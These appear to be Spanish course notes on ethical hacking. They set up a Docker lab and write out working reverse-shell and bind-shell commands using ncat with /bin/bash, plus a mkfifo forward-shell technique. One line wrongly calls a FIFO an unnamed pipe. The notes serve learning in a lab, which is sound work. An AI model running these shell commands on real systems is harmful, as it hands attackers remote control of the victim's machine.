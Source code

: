 # Reverse-shell-bind-shell-forward-shell
Estos son apuntes del curso de savit4ar a introducción al hacking ético

![[Explicaciion grafica sobre reverse shell.png]]
## PRACTICA 

**Creamos un archivo Dockerfile y le colocamos lo siguiente:**

```bash
# Usa la imagen base de Ubuntu
FROM ubuntu:latest

ENV DEBIAN_FRONTEND noninteractive

# Actualiza los repositorios e instala las herramientas
RUN apt-get update && apt-get install -y nano net-tools wget iptables apache2 php

# Exponer el puerto 80
EXPOSE 80
```


Configurar nuestro DockerFile

```bash
sudo docker build -t reverse_shell .
sudo docker run -dit -p 80:80 --cap-add=NET_ADMIN --name Mycontainer reverse_shell
sudo docker exec -it Mycontainer /bin/bash
```

Para la reverse shell solo necesitamos ejecutar una bash con nc (netcat) para que luego en nuestro equipo me ponga en escucha ya que en la reverse shell la maquina victima se conecta a mi maquina

```bash 
ncat -e /bin/bash <MyIP> <puerto>
```
    

en mi maquina se coloca lo siguiente 
``` bash
nc -nlvp 443 
```

Ahora para la bind shell seria en la maquina victima tendria que poner 
que estoy en escucha ofreciendo una bash 
```bash
ncat -nlvp 443 -e /bin/bash
```

y en mi maquina me conecto a la ip de la maquina victima que esta ofreciendo 
la bash seria:

``` bash
nc <ip_victima>
```


Supongamos que hemos subido nuestro archivo php a la pagina y que por medio de ese archivo yo mandare un bash en teoria me deberia dejar, ahora probemos unos parametros de iptables para que no permita ninguna conexión de entrada, mas que el puerto que especificamos para eso he hecho un script en bash lo pueden descargar en mi github [Mi repositorio de GitHub](https://github.com/JJoosh/iptablesauto.git).
Una vez ya configurado intentamos y vemos que no nos deja es aquí donde entra las forward shell donde jugamos con mkfifo, que crea un archivo FIFO (named pipe)  que se utiliza como una especie de “consola simulada” interactiva a través de la cual  el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa  el atacante redirige el tráfico a través del archivo FIFO, lo que permite la comunicación bidireccional con la máquina remota. 

El Hacker savit4r nos ha facilitado todo esto que les  menciono ha hecho un script que automatice esto

[Repositorio de savit4r](https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py)

Pero entendamos un poco como funciona para ello coloquemos este comando en nuestra terminal 

``` bash
 mkfifo input; tail -f input | /bin/bash 2>&1 > output
```

1. **mkfifo input:** Este comando crea un archivo especial conocido como FIFO (First In, First Out) llamado "input" en el directorio actual. Un FIFO es una tubería sin nombre que permite la comunicación entre procesos.
2. **tail -f input: **Este comando inicia el seguimiento del archivo "input" recién creado utilizando el comando tail. La opción -f significa "seguimiento continuo", lo que hace que tail permanezca en ejecución y muestre las nuevas líneas agregadas al archivo en tiempo real.
3. **|**: Este símbolo se utiliza para redireccionar la salida estándar de un comando hacia la entrada estándar de otro comando. En este caso, está redirigiendo la salida del comando tail al siguiente comando.
4. **/bin/bash 2>&1 > output**: Este comando inicia una nueva instancia de la shell Bash. Aquí, 2>&1 redirige la salida de error estándar (stderr) al mismo lugar que la salida estándar (stdout). Luego, > redirige la salida estándar de la shell Bash al archivo llamado "output".

Entonces, en resumen, el comando crea un FIFO llamado "input", luego inicia un proceso que lee continuamente de ese FIFO (tail -f input), y las líneas leídas son enviadas a una instancia de la shell Bash que está ejecutándose. Cualquier salida (tanto estándar como de error) generada por la shell Bash se redirige al archivo "output". Esto puede ser utilizado para capturar la salida de comandos ejecutados en la shell Bash en tiempo real.

